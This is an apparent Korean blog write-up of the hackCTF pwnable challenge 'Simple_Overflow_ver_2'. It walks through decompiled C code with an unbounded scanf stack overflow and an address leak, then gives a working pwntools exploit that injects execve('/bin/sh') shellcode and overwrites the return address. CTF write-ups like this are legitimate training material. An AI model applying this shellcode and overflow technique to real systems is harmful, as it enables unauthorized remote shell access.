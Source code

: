 ```yaml
---
layout: post
title:  "[hackCTF]Simple_Overflow_ver_2"
date:   2020-02-18
---
```


hackCTF pwnable 7번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) ) // \n을 받을 때까지 공백을 입력 받아 s에 저장
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break; // s의 길이만큼 for문 반복
        if ( !(i & 0xF) ) // 0x0, 0x10이면
          printf("%p: ", &s[i]); // s[i]의 주소 출력
        printf(" %c", (unsigned __int8)s[i]); // s[i]의 값 출력
        if ( i % 16 == 15 ) // 16의 배수번째 글자면
          putchar(10); // new line
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  // 문자열을 입력 받는데 그 값이 "Y" 또는 "y"이면 do-while문을 다시 반복한다
  return 0;
}
```
복잡해보이지만 실은 간단하다.  
문자열을 입력받고 그 문자열 16글자 단위로 나눠서 출력한다.  
이 때 1st, 17th 문자, 33th... 문자는 주소를 출력한다.
<br>

정리해보자.<br><br>

***

| ret |           |
|:---:|:---------:|
| sfp |    ebp    |
| ... |           |
|  i  |  ebp-0x8  |
|  s  |           |
| ... | (128byte) |
|  s  |  ebp-0x88 |
|  v5 |  ebp-0x89 |

***
<br>

![0701](https://drive.google.com/uc?id=1VZWXdm7SKHOD-4lvLfeVyF5fLRko5Z4Z)  
실제로 실행해보면 좀 더 명확히 알 수 있다.<br><br>
지난 6번 문제와 동일하게 s의 주소를 알아낸 뒤 쉘코드를 포함한 payload를 완성하면 될 것 같다. 주의해야 할 점은 서버와 나 사이에 데이터 핑퐁이 잘 되어야 한다는 점이다. 이를 위해서 recvuntil함수를 자주 사용하기로 했다.<br><br>
목표 : 계속 변하는 s의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : scanf(" %[^\n]s", s)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

# 1st

p.recvuntil("Data : ")

p.sendline("asdf")

buf = int(p.recv(10), 16)

p.recvuntil("Again (y/n): ")

p.sendline("y")

# 2nd

p.recvuntil("Data : ")

payload = "\x90"*0x7

payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload += "\x90"*(0x88-0x20+0x4)

payload += p32(buf)

p.sendline(payload)

p.recvuntil("Again (y/n): ")

p.sendline("n")

p.interactive()

```
## 결과
![0702](https://drive.google.com/uc?id=13ENd7UhZJ3NSxpOyoGthlYVWHkv1xJ1t)
